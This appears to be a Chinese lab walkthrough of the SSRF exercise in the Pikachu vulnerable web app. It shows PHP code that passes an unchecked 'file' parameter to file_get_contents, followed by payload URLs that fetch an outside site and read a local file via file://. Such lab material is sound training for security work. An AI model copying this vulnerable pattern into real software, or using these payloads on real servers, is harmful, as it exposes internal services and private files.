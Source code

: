 ### SSRF(file_get_content)

**服务器端核心代码**
```php
if(isset($_GET['file']) && $_GET['file'] !=null){
    $filename = $_GET['file'];
    $str = file_get_contents($filename);
    echo $str;
}
```

- **file_get_contents() 函数**

    file() 函数把整个文件读入一个数组中.和 file() 一样,不同的是 file_get_contents() 把文件读入一个字符串.

    file_get_contents() 函数是用于将文件的内容读入到一个字符串中的首选方法.如果操作系统支持,还会使用内存映射技术来增强性能.

**漏洞利用**

观察 url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info2.php`

看上去没什么变化,试试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=http://www.baidu.com`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///c:/1.txt`
